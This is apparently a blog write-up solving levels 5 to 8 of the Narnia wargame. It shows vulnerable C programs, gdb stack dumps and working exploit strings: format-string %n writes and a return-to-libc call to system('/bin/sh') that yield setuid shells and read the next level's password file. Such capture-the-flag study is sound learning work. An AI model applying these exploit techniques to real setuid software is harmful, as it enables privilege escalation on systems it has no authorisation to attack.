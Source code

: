 Solving Narnia Part 2
#####################

:title: Solving Narnia Part 2
:date: 2015-04-13T00
:modified: 2015-04-13 20
:tags:


Carrying on from `Part 1 <http://unlogic.co.uk/2015/04/08/solving-narnia-part1/>`_

Level 05 ##
-----------

.. code:: c 

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
     
    int main(int argc, char **argv){
        int i = 1;
        char buffer[64];

        snprintf(buffer, sizeof buffer, argv[1]);
        buffer[sizeof (buffer) - 1] = 0;
        printf("Change i's value from 1 -> 500. ");

        if(i==500){
            printf("GOOD\n");
            system("/bin/sh");
        }

        printf("No way...let me give you a hint!\n");
        printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
        printf ("i = %d (%p)\n", i, &i);
        return 0;
    }

A fixed sized buffer again. This time however trying to overflow it in order to
write to :code:`i` won't work. If we look at line 9 and lookup the manpage for :code:`snprintf`
we see that 

    The  functions  snprintf() and vsnprintf() write at most size bytes
    (including the trailing null byte ('\0')) to str.

So we won't be able to overflow this buffer. Going through the usual possible exploits 
we've only really go one more to try: `format string attack <https://en.wikipedia.org/wiki/Uncontrolled_format_string>`_ or
*uncontrolled format string vulnerability*. This happens when user input
isn't checked, and allows the user to use format characters (:code:`%s`, :code:`%x`) to read or
manipulate the stack.

For me this is one of the harder exploits to understand, so this level is 
great practice for me. So if it doesn't make sense at first, stick with it and
try various strings. Hopefully you'll grok it at some point.

Let's check to see if our hunch is right. Using a few characters to start, I 
then append a list of :code:`%x`, which read values from the stack and print them.

.. code:: console

	narnia5@melinda:/narnia$ ./narnia5 `python -c "print 'aaaa'+'%x'*10"`
	Change i's value from 1 -> 500. No way...let me give you a hint!
	buffer : [aaaaf7eb75b6ffffffffffffd6aef7e2fbf8616161616265376636623537666] (63)
	i = 1 (0xffffd6cc)

Sure enough we see the beginning of the input string after the 4th :code:`%x`. So we then
put the address if :code:`i` into that location like and shorten the number of :code:`%x`.

.. code:: console

	narnia5@melinda:/narnia$ ./narnia5 `python -c "print '\xcc\xd6\xff\xff'+'%x'*5"`
	Change i's value from 1 -> 500. No way...let me give you a hint!
	buffer : [����f7eb75b6ffffffffffffd6aef7e2fbf8ffffd6cc] (44)
	i = 1 (0xffffd6cc)

Now we have the address of :code:`i`, we use :code:`%n` to write to that address, remembering
to remove one :code:`%x` to keep the right length.

.. code:: console

	narnia5@melinda:/narnia$ ./narnia5 `python -c "print '\xcc\xd6\xff\xff'+'%x'*4 + '%n'"`
	Change i's value from 1 -> 500. No way...let me give you a hint!
	buffer : [����f7eb75b6ffffffffffffd6aef7e2fbf8] (36)
	i = 36 (0xffffd6cc)

So we see that we've written the length of the string into :code:`i`. We already have 
a value of 36, but we need 500. To achieve this we need to pad the string.

.. code:: console

	narnia5@melinda:/narnia$ ./narnia5 $(python -c "print '\xcc\xd6\xff\xff'+'%x'*3 + '%500d' + '%n'")
	Change i's value from 1 -> 500. No way...let me give you a hint!
	buffer : [����f7eb75b6ffffffffffffd6ae                                   ] (63)
	i = 528 (0xffffd6cc)

We're *28* over the target, so let's reduce the padding

.. code:: console

	narnia5@melinda:/narnia$ ./narnia5 $(python -c "print '\xcc\xd6\xff\xff'+'%x'*3 + '%472d' + '%n'")
	Change i's value from 1 -> 500. GOOD
	$ whoami
	narnia6
	$ cat /etc/narnia_pass/narnia6
	[password]

Level 06 ##
-----------

.. code:: c

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>

    extern char **environ;

    // tired of fixing values...
    // - morla
    unsigned long get_sp(void) {
           __asm__("movl %esp,%eax\n\t"
                   "and $0xff000000, %eax"
                   );
    }

    int main(int argc, char *argv[]){
        char b1[8], b2[8];
        int  (*fp)(char *)=(int(*)(char *))&puts, i;

        if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }

        /* clear environ */
        for(i=0; environ[i] != NULL; i++)
            memset(environ[i], '\0', strlen(environ[i]));
        /* clear argz    */
        for(i=3; argv[i] != NULL; i++)
            memset(argv[i], '\0', strlen(argv[i]));

        strcpy(b1,argv[1]);
        strcpy(b2,argv[2]);
        //if(((unsigned long)fp & 0xff000000) == 0xff000000)
        if(((unsigned long)fp & 0xff000000) == get_sp())
            exit(-1);
        fp(b1);

        exit(1);
    }

In this rather complicated looking listing we notice a few things:

* line 17 is a function pointer to :code:`puts`
* line 33 calls the function :code:`fp` points to
* line 31 prevents :code:`fp` from pointing to anything in our frame

The last lines means we need to point :code:`fp` to a call in a system library. 
This is going to be a `ret to libc attack <https://en.wikipedia.org/wiki/Return-to-libc_attack>`_. We 
need to find the location of the function we want to execute. We want a shell, so our 
best option would be to execute :code:`system('/bin/sh')`. As luck would have it, :code:`puts` and
:code:`system` both have the same function definition: :code:`int system(const char *command);` and
:code:`int puts(const char *s);`

Let's fire up gdb and figure out our addresses.

.. code:: console

	narnia6@melinda:/narnia$ gdb ./narnia6 -q
	Reading symbols from ./narnia6...(no debugging symbols found)...done.
	(gdb) disass main
	Dump of assembler code for function main:
	   0x08048559 <+0>:	push   %ebp
	   0x0804855a <+1>:	mov    %esp,%ebp
	   0x0804855c <+3>:	push   %ebx
	   0x0804855d <+4>:	and    $0xfffffff0,%esp
	   0x08048560 <+7>:	sub    $0x30,%esp
	
	    <-- snip -->
	
	   0x0804869b <+322>:	movl   $0xffffffff,(%esp)      
	   0x080486a2 <+329>:	call   0x8048410 <exit@plt>
	   0x080486a7 <+334>:	lea    0x20(%esp),%eax
	   0x080486ab <+338>:	mov    %eax,(%esp)
	   0x080486ae <+341>:	mov    0x28(%esp),%eax
	   0x080486b2 <+345>:	call   *%eax                <-- calling *fp*
	   0x080486b4 <+347>:	movl   $0x1,(%esp)
	   0x080486bb <+354>:	call   0x8048410 <exit@plt>
	End of assembler dump.
	
	(gdb) break *0x080486b2
	Breakpoint 1 at 0x80486b2
	(gdb) r aaaaaaaabbbb ccccccccdddd
	Starting program: /games/narnia/narnia6 aaaaaaaabbbb ccccccccdddd
	
	Breakpoint 1, 0x080486b2 in main ()
	(gdb) x/50wx $esp
	0xffffd680:	0xffffd6a0	0xffffd8ac	0x00000021	0x08048712
	0xffffd690:	0x00000003	0xffffd754	0x63636363	0x63636363
	0xffffd6a0:	0x64646464	0x61616100	0x62626262	0x00000000
	0xffffd6b0:	0x080486c0	0xf7fca000	0x00000000	0xf7e3ca63
	0xffffd6c0:	0x00000003	0xffffd754	0xffffd764	0xf7feacea
	0xffffd6d0:	0x00000003	0xffffd754	0xffffd6f4	0x08049978
	0xffffd6e0:	0x08048290	0xf7fca000	0x00000000	0x00000000
	0xffffd6f0:	0x00000000	0x32aaee13	0x0a932a03	0x00000000
	0xffffd700:	0x00000000	0x00000000	0x00000003	0x08048450
	0xffffd710:	0x00000000	0xf7ff0500	0xf7e3c979	0xf7ffd000
	0xffffd720:	0x00000003	0x08048450	0x00000000	0x08048471
	0xffffd730:	0x08048559	0x00000003	0xffffd754	0x080486c0
	0xffffd740:	0x08048730	0xf7feb180
	(gdb) p system
	$1 = {<text variable, no debug info>} 0xf7e62cd0 <system>
	(gdb) c
	Continuing.
	
	Program received signal SIGSEGV, Segmentation fault.
	0x62626262 in ?? ()

What I did here was to disassemble the :code:`main` function and find out where
:code:`fp` is getting called, so that I can set a breakpoint on it. Then I
run the binary and inspect the stack before the call to :code:`fp`. What we see is
that :code:`$esp` points to :code:`0xffffd6a0`, which is where the last 4 values of
:code:`b2` are stored. This is also the argument that will be passed to the :code:`fp` call.
Function arguments are pushed onto the stack before a function is called. So
We want this to point to :code:`/bin/sh`, and we want :code:`fp` to point to :code:`system`. This is
the reason for the :code:`p system`, it tells us the location of :code:`system`.
Also note that our :code:`segfault` is showing us the last
4 digits of :code:`b1`. Perfect, I can use that to overwrite :code:`fp` with the address of
:code:`system` and I should be good to go.

As this is a little more advanced, let's go over the steps:

- Get the address of the argument to whatever :code:`fp` points to
- Figure out how to overwrite that with our argument
- Get the address of :code:`system`
- Overwrite what :code:`fp` points to with :code:`system`'s address 
- Assemble payload and hopefully get a shell

So the last step:

.. code:: console

	narnia6@melinda:/narnia$ /games/narnia/narnia6 `python -c "print 'a'*8 + '\xd0\x2c\xe6\xf7' +' '+ 'b'*8 + '/bin/sh'"`
	$ whoami
	narnia7
	$ cat /etc/narnia_pass/narnia7
	[password]

Level 07 ##
-----------

.. code:: c

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <stdlib.h>
    #include <unistd.h>

    int goodfunction();
    int hackedfunction();

    int vuln(const char *format){
        char buffer[128];
        int (*ptrf)();

        memset(buffer, 0, sizeof(buffer));
        printf("goodfunction() = %p\n", goodfunction);
        printf("hackedfunction() = %p\n\n", hackedfunction);

        ptrf = goodfunction;
        printf("before : ptrf() = %p (%p)\n", ptrf, &ptrf);

        printf("I guess you want to come to the hackedfunction...\n");
        sleep(2);
        ptrf = goodfunction;

        snprintf(buffer, sizeof buffer, format);

        return ptrf();
    }

    int main(int argc, char **argv){
        if (argc <= 1){
                fprintf(stderr, "Usage: %s <buffer>\n", argv[0]);
                exit(-1);
        }
        exit(vuln(argv[1]));
    }

    int goodfunction(){
        printf("Welcome to the goodfunction, but i said the Hackedfunction..\n");
        fflush(stdout);
            
        return 0;
    }

    int hackedfunction(){
        printf("Way to go!!!!");
        fflush(stdout);
        system("/bin/sh");

        return 0;
    }

The presence of :code:`snprintf` indicates that this will be another format string attack.
Great, another one of my least favourites. This should help imprint it on my
brain though, so let's attack this

.. code:: console

	(gdb) disass vuln
	Dump of assembler code for function vuln:
	   0x080485cd <+0>:	push   %ebp
	   0x080485ce <+1>:	mov    %esp,%ebp
	   0x080485d0 <+3>:	sub    $0xa8,%esp
	   0x080485d6 <+9>:	movl   $0x80,0x8(%esp)
	   0x080485de <+17>:	movl   $0x0,0x4(%esp)
	   0x080485e6 <+25>:	lea    -0x88(%ebp),%eax
	   0x080485ec <+31>:	mov    %eax,(%esp)
	   0x080485ef <+34>:	call   0x80484b0 <memset@plt>
	   0x080485f4 <+39>:	movl   $0x80486e0,0x4(%esp)
	   0x080485fc <+47>:	movl   $0x80487d0,(%esp)
	   0x08048603 <+54>:	call   0x8048420 <printf@plt>
	   0x08048608 <+59>:	movl   $0x8048706,0x4(%esp)
	   0x08048610 <+67>:	movl   $0x80487e5,(%esp)
	   0x08048617 <+74>:	call   0x8048420 <printf@plt>
	   0x0804861c <+79>:	movl   $0x80486e0,-0x8c(%ebp)
	   0x08048626 <+89>:	mov    -0x8c(%ebp),%eax
	   0x0804862c <+95>:	lea    -0x8c(%ebp),%edx
	   0x08048632 <+101>:	mov    %edx,0x8(%esp)
	   0x08048636 <+105>:	mov    %eax,0x4(%esp)
	   0x0804863a <+109>:	movl   $0x80487fd,(%esp)
	   0x08048641 <+116>:	call   0x8048420 <printf@plt>
	   0x08048646 <+121>:	movl   $0x8048818,(%esp)
	   0x0804864d <+128>:	call   0x8048450 <puts@plt>
	   0x08048652 <+133>:	movl   $0x2,(%esp)
	   0x08048659 <+140>:	call   0x8048440 <sleep@plt>
	   0x0804865e <+145>:	movl   $0x80486e0,-0x8c(%ebp)
	   0x08048668 <+155>:	mov    0x8(%ebp),%eax
	   0x0804866b <+158>:	mov    %eax,0x8(%esp)
	   0x0804866f <+162>:	movl   $0x80,0x4(%esp)
	   0x08048677 <+170>:	lea    -0x88(%ebp),%eax
	   0x0804867d <+176>:	mov    %eax,(%esp)
	   0x08048680 <+179>:	call   0x80484c0 <snprintf@plt>
	   0x08048685 <+184>:	mov    -0x8c(%ebp),%eax
	   0x0804868b <+190>:	call   *%eax
	   0x0804868d <+192>:	leave  
	   0x0804868e <+193>:	ret    
	End of assembler dump.
	(gdb) break *0x08048685

So disassmble the :code:`vuln` function and set a break point just 
before the call of the function pointer. In the process of this challenge
I learned of a nice way to determine the number of :code:`%x` you need. Using
:code:`ltrace` it's possible to increment the number of :code:`%x`'s until you
see your string in the output again. I'll paste only the correcy output here

..code:: console

    narnia7@melinda:/narnia$ ltrace ./narnia7 :code:`python -c "print 'aaaabbbb' + '%x'*7"`
    __libc_start_main(0x804868f, 2, 0xffffd774, 0x8048740 <unfinished ...>
    memset(0xffffd630, '\0', 128)                                = 0xffffd630
    printf("goodfunction() = %p\n", 0x80486e0goodfunction() = 0x80486e0
    )                   = 27
    printf("hackedfunction() = %p\n\n", 0x8048706hackedfunction() = 0x8048706

    )               = 30
    printf("before : ptrf() = %p (%p)\n", 0x80486e0, 0xffffd62cbefore : ptrf() = 0x80486e0 (0xffffd62c)
    ) = 41
    puts("I guess you want to come to the "...I guess you want to come to the hackedfunction...
    )                  = 50
    sleep(2)                                                     = 0
    snprintf("aaaabbbb8048238ffffd688f7ffda940"..., 128, "aaaabbbb%x%x%x%x%x%x%x", 0x8048238, 0xffffd688, 0xf7ffda94, 0, 0x80486e0, 0x61616161, 0x62626262) = 55
    puts("Welcome to the goodfunction, but"...Welcome to the goodfunction, but i said the Hackedfunction..
    )                  = 61
    fflush(0xf7fcaac0)                                           = 0
    exit(0 <no return ...>
    +++ exited (status 0) +++

You can see the *aaaa* and *bbbb* at line 14. So we have 7 :code:`%x` to get the second value.

Let's take a look at the stack with that input

.. code:: console

	(gdb) r $(python -c "print 'aaaabbbb' + '%x'*7")
	Starting program: /games/narnia/narnia7 $(python -c "print 'aaaabbbb' + '%x'*7")
	goodfunction() = 0x80486e0
	hackedfunction() = 0x8048706
	
	before : ptrf() = 0x80486e0 (0xffffd60c)
	I guess you want to come to the hackedfunction...
	
	Breakpoint 1, 0x08048685 in vuln ()
	(gdb) x/40wx $esp
	0xffffd5f0:	0xffffd610	0x00000080	0xffffd8a2	0x08048238
	0xffffd600:	0xffffd668	0xf7ffda94	0x00000000	0x080486e0
	0xffffd610:	0x61616161	0x62626262	0x38343038	0x66383332
	0xffffd620:	0x64666666	0x66383636	0x64666637	0x30343961
	0xffffd630:	0x38343038	0x36306536	0x36313631	0x36313631
	0xffffd640:	0x36323632	0x00323632	0x00000000	0x00000000
	0xffffd650:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd660:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd670:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd680:	0x00000000	0x00000000	0x00000000	0x00000000

So at :code:`0xffffd60c` is the address of :code:`goodfunction`. We need to overwrite that
to point to `0x8048706`, our `hackedfunction`. So as before in `level 05 <http://unlogic.co.uk/2015/04/10/solving-narnia-part-2/#level-05>`_
we use :code:`%n` to try and overwrite this value.

.. code:: console

	(gdb) r $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*6 + '%n'")
	
	Starting program: /games/narnia/narnia7 $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*6 + '%n'")
	goodfunction() = 0x80486e0
	hackedfunction() = 0x8048706
	
	before : ptrf() = 0x80486e0 (0xffffd60c)
	I guess you want to come to the hackedfunction...
	
	Breakpoint 1, 0x08048685 in vuln ()
	(gdb) x/40wx $esp
	0xffffd5f0:	0xffffd610	0x00000080	0xffffd8a2	0x08048238
	0xffffd600:	0xffffd668	0xf7ffda94	0x00000000	0x0000002f
	0xffffd610:	0x61616161	0xffffd60c	0x38343038	0x66383332
	0xffffd620:	0x64666666	0x66383636	0x64666637	0x30343961
	0xffffd630:	0x38343038	0x36306536	0x36313631	0x00313631
	0xffffd640:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd650:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd660:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd670:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd680:	0x00000000	0x00000000	0x00000000	0x00000000
	(gdb)
 
The value of *2f* at :code:`0xffffd60c` shows us that our overwrite was successful
and we wrote the value of *47*. We need to write :code:`0x8048706` which is *134514438* in decimal.
So let's add our :code:`%d` in and remember to adjust the number of :code:`%x` s too, so we can see
how much padding we need

.. code:: console

	(gdb) r $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%d%n'")
	The program being debugged has been started already.
	Start it from the beginning? (y or n) y
	
	Starting program: /games/narnia/narnia7 $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%d%n'")
	goodfunction() = 0x80486e0
	hackedfunction() = 0x8048706
	
	before : ptrf() = 0x80486e0 (0xffffd60c)
	I guess you want to come to the hackedfunction...
	
	Breakpoint 1, 0x08048685 in vuln ()
	(gdb) x/40wx $esp
	0xffffd5f0:	0xffffd610	0x00000080	0xffffd8a2	0x08048238
	0xffffd600:	0xffffd668	0xf7ffda94	0x00000000	0x00000031
	0xffffd610:	0x61616161	0xffffd60c	0x38343038	0x66383332
	0xffffd620:	0x64666666	0x66383636	0x64666637	0x30343961
	0xffffd630:	0x38343038	0x31306536	0x37333336	0x37383137
	0xffffd640:	0x00000033	0x00000000	0x00000000	0x00000000
	0xffffd650:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd660:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd670:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd680:	0x00000000	0x00000000	0x00000000	0x00000000

Ok, so :code:`0x8048706 - 0x00000031 = 0x80486d6` or *134514389* in decimal.
Let's see if I'm right

.. code:: console

	(gdb) r $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%134514389d%n'")
	The program being debugged has been started already.
	Start it from the beginning? (y or n) y
	
	Starting program: /games/narnia/narnia7 $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%134514389d%n'")
	goodfunction() = 0x80486e0
	hackedfunction() = 0x8048706
	
	before : ptrf() = 0x80486e0 (0xffffd60c)
	I guess you want to come to the hackedfunction...
	
	Breakpoint 1, 0x08048685 in vuln ()
	(gdb) x/40wx $esp
	0xffffd5f0:	0xffffd610	0x00000080	0xffffd899	0x08048238
	0xffffd600:	0xffffd668	0xf7ffda94	0x00000000	0x080486fc
	0xffffd610:	0x61616161	0xffffd60c	0x38343038	0x66383332
	0xffffd620:	0x64666666	0x66383636	0x64666637	0x30343961
	0xffffd630:	0x38343038	0x20306536	0x20202020	0x20202020
	0xffffd640:	0x20202020	0x20202020	0x20202020	0x20202020
	0xffffd650:	0x20202020	0x20202020	0x20202020	0x20202020
	0xffffd660:	0x20202020	0x20202020	0x20202020	0x20202020
	0xffffd670:	0x20202020	0x20202020	0x20202020	0x20202020
	0xffffd680:	0x20202020	0x20202020	0x20202020	0x00202020

Still a little off. Adjusting the value again

.. code:: console

	(gdb) r $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%134514399d%n'")
	The program being debugged has been started already.
	Start it from the beginning? (y or n) y
	
	Starting program: /games/narnia/narnia7 $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%134514399d%n'")
	goodfunction() = 0x80486e0
	hackedfunction() = 0x8048706
	
	before : ptrf() = 0x80486e0 (0xffffd60c)
	I guess you want to come to the hackedfunction...
	
	Breakpoint 1, 0x08048685 in vuln ()
	(gdb) x/40wx $esp
	0xffffd5f0:	0xffffd610	0x00000080	0xffffd899	0x08048238
	0xffffd600:	0xffffd668	0xf7ffda94	0x00000000	0x08048706
	0xffffd610:	0x61616161	0xffffd60c	0x38343038	0x66383332
	0xffffd620:	0x64666666	0x66383636	0x64666637	0x30343961
	0xffffd630:	0x38343038	0x20306536	0x20202020	0x20202020
	0xffffd640:	0x20202020	0x20202020	0x20202020	0x20202020
	0xffffd650:	0x20202020	0x20202020	0x20202020	0x20202020
	0xffffd660:	0x20202020	0x20202020	0x20202020	0x20202020
	0xffffd670:	0x20202020	0x20202020	0x20202020	0x20202020
	0xffffd680:	0x20202020	0x20202020	0x20202020	0x00202020
	(gdb) c
	Continuing.
	Way to go!!!!$

And now we need to run it from the commandline to actually get a proper setuid shell

.. code:: console

	narnia7@melinda:/narnia$ .//narnia7 $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%134514399d%n'")
	goodfunction() = 0x80486e0
	hackedfunction() = 0x8048706
	
	before : ptrf() = 0x80486e0 (0xffffd61c)
	I guess you want to come to the hackedfunction...
	Welcome to the goodfunction, but i said the Hackedfunction..
	narnia7@melinda:/narnia$ .//narnia7 $(python -c "print 'aaaa\x1c\xd6\xff\xff' + '%x'*5 + '%134514399d%n'")
	goodfunction() = 0x80486e0
	hackedfunction() = 0x8048706
	
	before : ptrf() = 0x80486e0 (0xffffd61c)
	I guess you want to come to the hackedfunction...
	Way to go!!!!$ whomai
	/bin/sh: 1: whomai: not found
	$ whoami
	narnia8
	$ cat /etc/narnia_pass/narnia8 
	[password]

Notice that the address of :code:`ptrf` is not the same in the shell :)

Level 08 ##
-----------

.. code: c

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    // gcc's variable reordering fucked things up
    // to keep the level in its old style i am 
    // making "i" global unti i find a fix 
    // -morla 
    int i; 

    void func(char *b){
        char *blah=b;
        char bok[20];
        //int i=0;
        
        memset(bok, '\0', sizeof(bok));
        for(i=0; blah[i] != '\0'; i++)
            bok[i]=blah[i];

        printf("%s\n",bok);
    }

    int main(int argc, char **argv){
            
        if(argc > 1)       
            func(argv[1]);
        else    
        printf("%s argument\n", argv[0]);

        return 0;
    }


I'm struggling with this, and rather than delay the whole post because of the last
level, I decided to post anyway. I'll update this when I have this figured out.

Sorry.
